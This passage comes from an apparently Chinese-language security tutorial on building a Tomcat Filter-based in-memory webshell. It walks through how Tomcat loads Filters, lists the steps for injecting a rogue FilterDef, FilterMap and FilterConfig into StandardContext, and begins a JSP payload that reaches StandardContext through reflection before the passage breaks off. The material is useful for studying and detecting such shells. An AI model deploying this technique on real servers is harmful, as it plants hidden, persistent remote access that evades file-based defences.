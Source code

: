 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211042109373.png)

重点关注 filter filterClass filterName 这三个属性

filter 是被调用 Filter 实例, filterClass 是 Filter 对应的 Class, filterName 就是 Filter 的名称, 而且三者都有对应的 getter 和 setter

综上, Filter 的加载流程如下

1. 通过 ApplicationFilterFactory.createFilterChain() 创建 FilterChain
2. 调用 StandardContext.findFilterMaps() 得到 filterMaps
3. 遍历 filterMaps, 依次从 StandardContext 中用 filterMap.getFilterName()  获取对应的 filterConfig, 并将其放入 FilterChain
4. 执行 FilterChain.doFilter() 并在内部调用 internalDoFilter 方法
5. 依次执行 filterConfig.getFilter() 获取 Filter 实例, 并最终调用其 doFilter 方法

## Filter 相关对象和属性

在编写内存马之前, 我们先梳理一下之前出现的各种以 Filter 开头的对象

- FilterMap: 存在 filterName 和 urlPatterns 属性, 对应 Filter 的名称和匹配规则

- FilterConfig: 这里具体指 ApplicationFilterConfig, 存在 Filter 和 FilterDef 属性, 其中 Filter 在构造函数中通过 filterDef.getFilter() 取得

- FilterDef: 存在 filter filterClass filterName 属性, 其中 filter 为被调用的 Filter 实例

然后是位于 StandardContext 中的以 filter 开头的属性

- filterMaps: 本质为 Array, 存放 FilterMap

- filterConfigs: 本质为 HashMap, key 为 filterMap 的 filterName, value 为对应的 FilterConfig

- filterDefs: 本质为 HashMap, key 为 filterMap 的 filterName, value 为对应的 FilterDef

根据上面加载流程, 我们注入内存马的过程为

1. 在 StandardContext 的 filterDefs 中添加 FilterDef (validateFilterMap 验证)
2. 向 filterMaps 中添加 FilterMap
3. 将对应的 FilterConfig (包含 FilterDef) 添加到 filterConfigs

## 编写内存马

前面分析的已经很明显了, 但这里还有一个问题, 如何获取 StandardContext?

方法很多, 可以从 request 获取, 也可以从 ContextClassLoader ThreadLocal MBean 中获取

因为 JSP 默认就可以调用 request 对象, 所以下面先以 request 为例, 后面的几种方法等有时间专门写一篇文章

最终 payload 如下

```java
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.io.*" %>
<%

    // 获取 StandardContext
    ServletContext servletContext = request.getSession().getServletContext();
    Field appctxField = servletContext.getClass().getDeclaredField("context");
    appctxField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctxField.get(servletContext);
    Field stdctxField = applicationContext.getClass().getDeclaredField("context");
    stdctxField.setAccessible(true);
```